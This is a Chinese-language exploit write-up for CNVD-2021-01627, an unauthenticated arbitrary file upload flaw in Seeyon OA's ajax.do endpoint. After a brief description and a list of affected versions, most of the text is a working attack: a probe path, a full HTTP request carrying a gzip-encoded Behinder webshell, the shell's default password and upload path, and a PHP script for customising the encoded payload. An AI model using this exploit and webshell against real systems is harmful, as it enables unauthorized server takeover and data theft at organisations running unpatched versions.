


# 致远OA ajax.do 任意文件上传 CNVD-2021-01627

# 致远OA ajax.do 任意文件上传 CNVD-2021-01627

## 漏洞描述

致远OA是一套办公协同管理软件。近日，奇安信CERT监测到致远OA的相关漏洞信息。由于致远OA旧版本某些接口存在未授权访问，以及部分函数存在过滤不足，攻击者通过构造恶意请求，可在无需登录的情况下上传恶意脚本文件，从而控制服务器。致远OA官方已针对该漏洞提供补丁。鉴于漏洞危害较大，建议用户尽快应用补丁更新。

## 漏洞影响

<a-checkbox checked>致远OA V8.0</a-checkbox></br>

<a-checkbox checked>致远OA V7.1、V7.1SP1</a-checkbox></br>

<a-checkbox checked>致远OA V7.0、V7.0SP1、V7.0SP2、V7.0SP3</a-checkbox></br>

<a-checkbox checked>致远OA V6.0、V6.1SP1、V6.1SP2</a-checkbox></br>

<a-checkbox checked>致远OA V5.x</a-checkbox></br>

<a-checkbox checked>致远OA G6</a-checkbox></br>

## 漏洞复现

通过请求判断是否可能存在漏洞

```plain
/seeyon/thirdpartyController.do.css/..;/ajax.do
```


查看是否出现如上图异常，若存在则可能出现漏洞

```plain
出现异常：java.lang.NullPointerException:null
```

然后调用未授权的文件上传接口上传webshell文件，请求包如下

```html
POST /seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip HTTP/1.1
Host: 127.0.0.1
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
loginPageURL=; login_locale=zh_CN;
Content-Type: application/x-www-form-urlencoded

managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH*va%C3%B9%0F%C3%A0_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24*%C2%A9e*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4_%05%00%00
```

```plain
冰蝎3 默认马pass : rebeyond
webshell地址: /seeyon/apps_res/addressbook/images/config.jspx
```

成功会返回

```json
{
    "message":null,
    "details":null,
    "code":"0436821967"
}
```


失败会返回

```json
{
  "message": "被迫下线，原因：与服务器失去连接",
  "code": "-1",
  "details": null
}
```


上传后请求webshell地址，访问返回出现如下图则成功写入





文件编码脚本, 自行进行自定义调试

```php
<?php 
$webshell = urldecode("%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH*va%C3%B9%0F%C3%A0_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24*%C2%A9e*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4_%05%00%00");
$webshell = iconv("UTF-8","ISO-8859-1",$webshell);
$webshell = gzdecode($webshell);

/* 自行更改脚本自定义上传位置,webshell名字,冰蝎密码 */
$webshell = str_replace("../webapps/seeyon/apps_res/addressbook/images/config.jspx","../webapps/seeyon/apps_res/addressbook/images/config.jspx",$webshell);
$webshell = str_replace("config.jspx","config.jspx",$webshell);
$webshell = str_replace("e45e329feb5d925b","e45e329feb5d925b",$webshell);

$webshell = gzencode($webshell);
$webshell = iconv("ISO-8859-1","UTF-8" ,$webshell);
$webshell = urlencode("$webshell");
echo $webshell;

?>
```


